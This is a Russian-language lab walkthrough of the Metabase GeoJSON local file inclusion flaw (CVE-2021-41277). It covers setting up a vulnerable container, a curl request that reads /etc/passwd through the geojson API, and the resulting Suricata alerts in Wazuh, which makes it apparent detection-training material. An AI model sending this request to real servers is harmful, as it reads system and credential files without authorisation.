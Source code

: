 # CVE-2021-41277

Metabase — это платформа для анализа данных с открытым исходным кодом. В уязвимых версиях была обнаружена проблема безопасности с поддержкой пользовательской карты GeoJSON (admin->settings->maps->custom maps->add a map) и возможным использованием и выполнением локальных файлов (включая переменные среды). Эта проблема исправлена ​​в новой версии обслуживания (0.40.5 и 1.40.5), а также во всех последующих версиях.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:3000 будет доступна стартовая страница Metabase

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Заполните следующую информацию произвольной информацией, она не влияет на реализацию уязвимости

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Чтобы реализовать уязвимость и прочитаь файл /etc/passwd, выполните следующую команду:

```
curl -v http://ваш-ip:3000/api/geojson?url=file:////etc/passwd
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

